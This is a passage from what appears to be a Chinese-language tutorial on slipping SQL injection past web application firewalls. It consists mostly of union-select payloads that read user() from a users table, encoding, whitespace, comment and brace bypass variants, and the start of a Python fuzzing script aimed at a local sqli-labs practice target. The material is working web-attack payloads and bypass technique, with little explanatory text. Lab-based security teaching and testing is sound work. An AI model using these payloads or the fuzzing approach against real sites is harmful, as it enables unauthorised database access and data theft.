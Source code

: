 

**组合**

```
\N%0C  \N%23  \N%27  %7E\N  %21\N  %27\N   %2D\N  %7E\N %2D%2D%0A
%27--  --%40   --%27 --""
...


1' union select 1,user(),\NXXXX%23from users --+

1' union select 1,user(),%27XXXX--from users --+
```





## 位置五

(1) 空白符

```bash
# %09,%0a,%0b,%0c,%0d,%20,%2E

1' union select 1,2,user() from%0dusers--+
```

(2)注释

```bash
/*!*/ 
/**/

-1' union select 1,2,user() from /**/users--+
```



(3)花括号

```
1' union select 1,user(),3 from(users) --+  

1' union select 1,user(),3 from{x users} --+
```





## FUZZ

已经知道上面五个位置了，单一姿势是无法奏效绕过的，有些姿势也是需要大量 FUZZ 得到，使用大量字符编码对 SQL 语句的“位”进行 FUZZ，可以自己编写脚本进行fuzz实现bypass。这里直接贴别人的代码了懒得自己写(自己实现的时候按照这个思路进行散发即可)：

```python
import requests
import itertools


List = ['%20','%09','%0a','%0b','%0c','%0d','%2d%2d','%23','%a0','%2D%2D%2B','%5C%4E','\\N']

count = 0
num = 2 #fuzz num 个字符组合
target = 'http://localhost/sqli-labs-master/Less-1/?id=-1\' '

for i in itertools.product(List,repeat=num):

    count += 1
    print(count,':',len(List)**num)

```